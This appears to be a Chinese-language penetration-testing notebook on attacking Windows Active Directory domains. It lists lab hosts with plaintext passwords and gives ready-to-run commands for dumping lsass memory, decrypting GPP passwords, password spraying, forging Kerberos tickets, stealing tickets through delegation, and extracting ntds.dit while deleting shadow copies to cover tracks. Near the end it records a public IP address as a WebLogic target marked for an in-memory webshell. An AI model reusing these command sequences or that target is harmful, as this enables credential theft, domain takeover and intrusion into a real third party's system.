


# 域渗透

```sh
#DC	WindowsServer2012
域名：y5neko.com
NAT：192.168.1.129
静态：192.168.1.250
密码：Y5NEKO0/Administrator:dc@123
还原模式密码：Weiyu200161
NetBIOS域名：Y5NEKO0
其他域用户账号密码：
user1:win71@123
user2:win72@123
普通域管理员账号密码：
admin:admin@123

SYSVOL漏洞测试密码：user@123

#WIN71	Windows7
密码：Administrator:win71@123
静态：192.168.1.3

#Kali
NAT：192.168.1.128
```


## 信息搜集

### 判断域环境

```sh
net config workstation
```

### 找域控

```sh
#fscan扫描netbios
./fscan_amd64 -np -m netbios -h 192.168.1.0/24

#net group命令
net group "domain admins" /domain
net group "domain controllers" /domain
```





### 扫描器快速扫描

```sh
cme smb <ip_range> 							# SMB 扫描存活主机
nmap -sP -p <ip> 							# ping 扫描
nmap -PN -sV --top-ports 50 --open <ip> 	# 快速扫描
nmap -PN --script smb-vuln* -p139,445 <ip> 	# 检测 SMB 漏洞
nmap -PN -sC -sV <ip> 						# 经典扫描
nmap -PN -sC -sV -p- <ip>		 			# 全扫描
nmap -sU -sC -sV <ip> 						# UDP 扫描
```

### 直接利用现有漏洞

```sh
systeminfo 									#查看补丁信息
findstr /S cpassword \test.orgsysvol*.xml		#MS14-025利用
```

#### 永恒之蓝MS17-010

> 远程命令执行，利用多个SMB漏洞进行攻击，因为涉及smb服务，所以需要利用139(TCP)和445(TCP)端口
>
> 涉及到的补丁编号有：
> KB4012598
> KB4012212
> KB4013429
> KB4013198
> KB4012606

#### SYSVOL漏洞MS14-025

> 权限提升，早期的某些版本组策略首选项可以储存加密过的密码，加密方式为AES-256，尽管这种方式很难被攻破，但是微软直接公示了解密私钥
>
> 

#### tomcat

auxiliary/scanner/http/tomcat_enum

tomcat弱密码等，war包后门

#### jboss manager

#### Java反序列化

常见的组件：shiro，weblogic，反序列化，cc链，cb链

exp生成工具：ysoserial

#### searchsploit

查找漏洞

```
searchsploit -u #更新
searchsploit 关键词
```


#### 爆数据库连接

admin/mssql/mssql_enum_sql_logins

#### proxylogon

1、 通过SSRF漏洞攻击,访问autodiscover.xml泄露LegacyDN信息
2、 在通过LegacyDN, 获取SID
3.、然后通过合法的SID,获取exchange的有效cookie
4.、最后通过有效的cookie,对OABVirtualDirectory对象进行恶意操作，写入一句话木马

ProxyLogon是通过利用CVE-2021-26855 SSRF 漏洞，然后使用CVE-2021-27065 任意文件写入漏洞组合进行利用。

https://www.cnblogs.com/nice0e3/p/15762864.html


### 提权

#### winPEAS

> 自动化扫描工具，可用于检测提权
>
> 项目地址：https://github.com/carlospolop/PEASS-ng

- #### 查找含有关键字的文档文件

```sh
查找内容有 password 的文件：findstr /si '{关键字}' *.txt *.xml *.docx
```


- #### 烂土豆提权Rotten Patato  MS16-075

> 通过模仿令牌欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证，对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。
>
> 项目地址：https://github.com/foxglovesec/Potato 

#### 多汁土豆提权Juicy Potato

> 项目地址：https://github.com/ohpe/juicy-potato

#### PrintSpoofer

> 项目地址：https://github.com/whojeff/PrintSpoofer

#### RoguePotato

> 项目地址：https://github.com/antonioCoco/RoguePotato

#### SMBGhost  CVE-2020-0796

> 项目地址：https://github.com/chompie1337/SMBGhost_RCE_PoC
>
> https://github.com/dacade/CVE-POC/tree/master/CVE-2020-0796

#### SeriousSAM  CVE-2021-36934

> 允许低权限用户访问SAM文件，该漏洞不影响Server版本
>
> 项目地址：https://github.com/GossiTheDog/HiveNightmare

### 本地管理员进一步提权

#### procdump.exe

```sh
#通过procdump.exe导出lsass.exe进程的内存，lsass进程中缓存有当前登陆密码
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### mimikatz

```sh
#通过mimikatz以管理员权限读取明文密码
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
#通过mimikatz以管理员权限dump lsass进程的内存
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

#### msf hashdump模块

```sh
#前提是msf获取到了目标shell
use post/windows/gather/smart_hashdump
```

#### CrackMapExec

CrackMapExec（CME）是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务。利用AD内置功能/协议达成其功能，并规避大多数终端防护/IDS/IPS解决方案。

```sh
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
```

### 绕过LSA读取密码

```shell
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
```

### token窃取

```sh
#查看本地存储所有的密码
lazagne.exe all
GitHub地址：https://github.com/AlessandroZ/LaZagne
```


```sh
#卷影拷贝（获取域控所有hash）
#通常情况下，即使拥有管理员权限，也无法读取域控制器中的C:\Windows\NTDS\ntds.dit文件。(活动目录始终访问这个文件，所以文件被禁止读取)
#使用Windows本地卷影拷贝服务(volume Shadow Copy Server，VSS)，就可以获取文件的副本(类似于虚拟机的快照)。
#ntds.dit文件是一个数据库，用于存储Active Directory数据，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希。通过提取这些哈希值，可以使用诸如Mimikatz之类的工具执行哈希传递攻击，或使用诸如Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些散列，它们便可以充当域上的任何用户，包括域管理员。
#在活动目录中，所有的数据都保存在ntds.dit中。ntds.dit是一个二进制文件，存储位置为域控制器的%SystemRoot%\ntds\ntds.dit。ntds.dit中包含用户名、散列值、组、GPP、OU等与活动目录相关的信息。它和SAM文件一样，是被操作系统锁定的。

#①利用ntdsutil.exe提取ntds.dit
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
#挂载快照
ntdsutil snapshot "mount {f2de785c-15d1-4b9d-bd1a-deeb599c1e2b}" quit quit
#复制ntds.dit
copy C:\$SNAP_202309222110_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

unmount		delete
```


```sh
#②利用vssadmin提取ntds.dit
#创建c盘卷影拷贝
vssadmin create shadow /for=c:
#复制ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit
#导出system.hive文件到注册表 
copy \\?\GLOBALLROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
#删除卷影，隐藏痕迹
vssadmin delete shadows /for=C: /quiet
```





## 本机信息搜集

```
1、用户列表  net user /domain
windows用户列表 分析邮件用户，内网[域]邮件用户，通常就是内网[域]用户

2.进程列表  tasklist /svc
分析杀毒软件/安全监控工具等 邮件客户端 VPN ftp等

3.服务列表	tasklist /svc
与安全防范工具有关服务[判断是否可以手动开关等] 存在问题的服务[权限/漏洞]

4.端口列表	netstat -ano
开放端口对应的常见服务/应用程序[匿名/权限/漏洞等] 利用端口进行信息收集

5.补丁列表	systeminfo
分析 Windows 补丁 第三方软件[Java/Oracle/Flash 等]漏洞

6.本机共享	smbclient -L ip  
		   net user \\ip\c$
本机共享列表/访问权限 本机访问的域共享/访问权限

7.本用户习惯分析
历史记录 收藏夹 文档等
```

### 获取当前用户密码Windows

```sh
#mimikatz
#高版本无法抓取明文密码
privilege::debug
sekurlsa::logonpasswords

#Invoke-WCMDump

mimiDbg

LaZagne

NirLauncher

quarkspwdump
```


### 获取当前用户密码Linux

```sh
mimipenguin
LaZagne
```


## 扩散信息搜集

```sh
#端口扫描
nmap
masscan

#内网拓扑分析
DMZ
管理网
生产网
测试网

#
```

### 常见信息搜集命令

```sh
ipconfig /all ------> 查询本机 IP 段，所在域等

net user ------> 本机用户列表
net localgroup administrators ------> 本机管理员[通常含有域用户]
net user /domain ------> 查询域用户
net group /domain ------> 查询域里面的工作组
net group "domain admins" /domain ------> 查询域管理员用户组
net localgroup administrators /domain ------> 登录本机的域管理员
net localgroup administrators workgroup\user001 /add ----->域用户添加到本机
net group "Domain controllers" -------> 查看域控制器(如果有多台)
net view ------> 查询同一域内机器列表
net view /domain ------> 查询域列表
net view /domain:domainname

dsquery computer domainroot -limit 65535 && net group "domain
computers" /domain ------> 列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain------>列出该域内所有用户名
dsquery subnet ------>列出该域内网段划分
dsquery group && net group /domain ------>列出该域内分组 
dsquery ou ------>列出该域内组织单位 
dsquery server && net time /domain------>列出该域内域控制器 

NETBIOS 信息收集
SMB 信息收集
空会话信息收集
漏洞信息收集等
```


### 域用户枚举

在kerberos的AS-REQ认证中当cname值中的用户不存在时返回包提示`KDC_ERR_C_PRINCIPAL_UNKNOWN`，所以当我们没有域凭证时，可以通过`Kerberos pre-auth`从域外对域用户进行用户枚举。

使用工具https://github.com/ropnop/kerbrute


### AS-REPRoasting

对于域用户，如果设置了选项`Do not require Kerberos preauthentication`(不要求Kerberos预身份认证)，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用`hashcat`或是`john`对其破解，最终获得该用户的明文口令。**默认情况下该配置不会设置**。

使用impacket工具包`GetNPUsers.py`发现不做Kerberos预认证用户：

```sh
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456 -format john -outputfile NPhashes
john --wordlist=/usr/share/wordlists/FastPwds.txt NPhashes

#没有域凭证时,可以用户名枚举来查找未设置预认证的账号
GetNPUsers.py -dc-ip 192.168.1.250 y5neko.com/ -usersfile users.txt

```


可以看到，通过user2普通账户扫描到了域管理员user1


无域凭证


该配置`不要求Kerberos预身份认证`默认不启用，可以给域内高权限用户配置该选项作为后门。

### 密码喷洒攻击

在kerberos的AS-REQ认证中当用户名存在时，密码正确或者错误返回包结果不一样，所以可以尝试爆破密码。

通常爆破就是用户名固定，爆破密码，但是密码喷洒，是用固定的密码去跑用户名。

```sh
./kerbrute_linux_amd64 passwordspray --dc 192.168.1.250 -d y5neko.com user.txt win71@123
```

单用户爆破密码：

```sh
./kerbrute_linux_amd64 bruteuser --dc 192.168.1.250 -d y5neko.com passwords.txt user1
```


### 定位域管理员

使用`PsLoggendon.exe`定位域管理员：
可以查看指定用户域内登录过的主机或是某主机登录过的用户

```sh
PsLoggendon.exe -accepteula administrator
PsLoggendon.exe -accepteula \\DC2012
```


### AdFind

列出域控制器名称：

```bash
AdFind -sc dclist
```


查看域控版本：

```bash
AdFind -schema -s base objectversion
```


查询当前域中在线的计算机(只显示名称和操作系统)：

```bash
AdFind -sc computers_active name operatingSystem
```


查询当前域中所有计算机（只显示名称和操作系统）：

```bash
AdFind -f "objectcategory=computer" name operatingSystem
```


查询当前域内所有用户：

```bash
AdFind -users name
```

查询域内所有GPO信息：

```bash
AdFind -sc gpodmp
```


查看指定域（y5neko.com）内非约束委派主机：

```bash
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"  cn
```


## 打域控的方法

### SYSVOL

SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。

**组策略**

组策略全称Group Policy Preferences，也就是GPP，常说的GPP漏洞就是这里的MS14-025漏洞。什么情况下会使用到组策略，系统中我们可以新建用户，默认最高权限账号为administrator，一般在域环境中管理员为了限制大家的权限不会给与administrator权限，这个时候就需要使用GPP来更改所有主机的内置管理员账号密码（user@123）


**原理**

我们提到过组策略可以批量更改所有主机的内置管理员账号密码，在新建完组策略，策略对象并添加本地账号密码后，会再域服务下面目录会生成这几个文件


id正好对应每个组策略的id


进入目录`C:\Windows\SYSVOL\domain\Policies\{0AEAF235-B686-426D-B72C-34C64A71DF70}\Machine\Preferences\Groups`下


其中cpassword的值就是AES加密后的密码密文，正好微软公布了加密密钥


使用kali自带工具直接解密

```shell
gpp-decrypt UVDbExfBIja6+i3M8Rwmwp7om2zdGbS12p4N/pl/AX8
```


**结论**

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹\SYSVOL下，默认所有域内用户可访问，虽然被加密，但很容易被解密

能打域控是因为某些情况下管理员可能会用相同的密码，才有几率可以通过单一密码打下域控，就算不能打下域控也可以通过命令行切换本地管理员账户，达成脱域的攻击

**防御**

补丁KB2962486

### MS14_068

1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
4、域控服务器的IP

```
user1:win71@123
S-1-5-21-1493762544-529832293-733686757-1112
192.168.1.250
```


**利用思路**

1、首先利用ms14-068提权工具生成伪造的kerberos协议认证证书（黄金票据）
2、利用mimikatz.exe将证书写入，从而提升为域管理员 
3、测试是否能访问域控C盘目录，能访问则说明提升为域管理员
4、利用PsExec.exe获取域控shell，添加用户并将其加入域管理员组

得到黄金票据之后，通过mimikatz写入内存

```sh
#提取kirbi格式的文件
kerberos::clist "20221114105328_default_192.168.254.133_windows.kerberos_896806.bin" /export

kerberos::purge         //清空当前所有凭证
kerberos::list          //查看当前凭证
kerberos::ptc TGT_tidetest@tide.org.ccache   //将票据注入到内存中

mimikatz.exe "kerberos::ptc c:TGT_user1@Y5NEKO.COM.ccache" exit
net use k: \pentest.comc$
```


## 域委派攻击

域委派是指，将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。需要注意的是在域内可以委派的账户有两种，一种是**主机账户**，另一种是**服务账户**(域用户通过注册SPN也可以成为服务账号)。
Kerberos委派主要分为三种：

**非约束委派攻击**：拿到非约束委派的主机权限，如能配合打印机BUG。则可以直接拿到域控权限。
**约束委派攻击**：拿到配置了约束委派的域账户或主机服务账户，就能拿到它委派服务的administrator权限。
**基于资源的约束委派攻击**：1.如果拿到将主机加入域内的域账号，即使是普通账号也可以拿到那些机器的system权限。 2.“烂番茄”本地提权

### 非约束委派

当域用户访问域内某服务时，如果该服务开启了非约束委派，用户会主动将自己已转发的TGT发送服务，而该服务会将用户的TGT保存在内存以备下次重用，然后服务就可以利用该已转发的TGT以用户的身份访问该用户能访问的服务。非约束委派的安全问题就是如果我们找到配置了非约束委派的主机，并且通过一定手段拿下该主机的权限，我们就可以拿到所有访问过该主机用户的TGT。

**配置非约束委派**


**查找非约束委派主机**

```sh
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"  cn
```


**利用**

当我们在域内拿到一台配置了非约束委派的主机后，就可以使用mimikatz导出所有票据，若是有其他用户访问过该主机，那么我们就可以通过ptt获取该用户权限。

```bash
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
#之后就可以带着票据任意使用了
kerberos::ptt [0;77987]-2-0-40e10000-Administrator@krbtgt-Y5NEKO.COM.kirbi
psexec64.exe \\DC.y5neko.com -accepteula -s cmd
```


### 非约束委派+Spooler打印机服务

利用原理：利用 Windows 打印系统远程协议 (MS-RPRN) 中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex) 方法强制任何运行了 Spooler 服务的计算机以通过 Kerberos 或 NTLM 对攻击者选择的目标进行身份验证。


# 常见漏洞利用

## Weblogic

### T3协议反序列化CVE-2015-4852

### shell收集

- http://196.219.91.74:9001/		WebLogic10 XMLDecoder		存在Defender		打内存马


## FastJSON


## Tomcat


## Log4j


## Shiro

### shiro550

反序列化命令执行


## JBoss


## Strust


## Spring


## Redis


## ThinkPHP


## Vcenter


## CommonCollections

### CC1